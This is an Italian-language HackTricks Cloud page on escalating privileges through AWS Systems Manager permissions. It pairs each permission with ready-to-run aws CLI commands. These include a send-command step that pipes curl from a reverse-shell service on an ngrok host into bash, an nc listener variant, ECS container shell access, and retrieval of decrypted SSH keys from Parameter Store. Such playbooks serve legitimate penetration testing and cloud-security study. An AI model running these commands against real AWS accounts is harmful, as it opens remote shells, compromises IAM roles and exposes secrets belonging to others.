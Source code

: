 # AWS - SSM Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## SSM

Per ulteriori informazioni su SSM controlla:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaccante con il permesso **`ssm:SendCommand`** può **eseguire comandi nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Nel caso in cui tu stia utilizzando questa tecnica per elevare i privilegi all'interno di un'istanza EC2 già compromessa, potresti semplicemente catturare la rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con SSM Agents in esecuzione.

### `ssm:StartSession`

Un attaccante con il permesso **`ssm:StartSession`** può **avviare una sessione simile a SSH nelle istanze** che eseguono l'Amazon SSM Agent e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Per avviare una sessione è necessario avere installato il **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 associati alle istanze in esecuzione con SSM Agents attivi.

#### Privesc a ECS

Quando i **compiti ECS** vengono eseguiti con **`ExecuteCommand` abilitato**, gli utenti con permessi sufficienti possono utilizzare `ecs execute-command` per **eseguire un comando** all'interno del contenitore.\
Secondo [**la documentazione**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), questo avviene creando un canale sicuro tra il dispositivo utilizzato per avviare il comando “_exec_” e il contenitore di destinazione con SSM Session Manager. (Plugin SSM Session Manager necessario affinché questo funzioni)\
Pertanto, gli utenti con `ssm:StartSession` saranno in grado di **ottenere una shell all'interno dei compiti ECS** con quell'opzione abilitata semplicemente eseguendo:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impatto Potenziale:** Privesc diretto ai ruoli `ECS`IAM allegati ai task in esecuzione con `ExecuteCommand` abilitato.

### `ssm:ResumeSession`

Un attaccante con il permesso **`ssm:ResumeSession`** può ri-**avviare una sessione simile a SSH in istanze** che eseguono l'Amazon SSM Agent con uno stato di sessione SSM **disconnesso** e **compromettere il Ruolo IAM** in esecuzione al suo interno.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impatto Potenziale:** Privesc diretto ai ruoli IAM EC2 attaccati a istanze in esecuzione con agenti SSM in esecuzione e sessioni disconnesse.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaccante con i permessi menzionati sarà in grado di elencare i **parametri SSM** e **leggerli in chiaro**. In questi parametri puoi frequentemente **trovare informazioni sensibili** come chiavi SSH o chiavi API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei parametri.

### `ssm:ListCommands`

Un attaccante con questo permesso può elencare tutti i **comandi** inviati e sperare di trovare **informazioni sensibili** in essi.
```
aws ssm list-commands
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle righe di comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaccante con questi permessi può elencare tutti i **comandi** inviati e **leggere l'output** generato sperando di trovare **informazioni sensibili** in esso.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno dell'output delle righe di comando.

### Codebuild

Puoi anche utilizzare SSM per accedere a un progetto codebuild in fase di costruzione:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
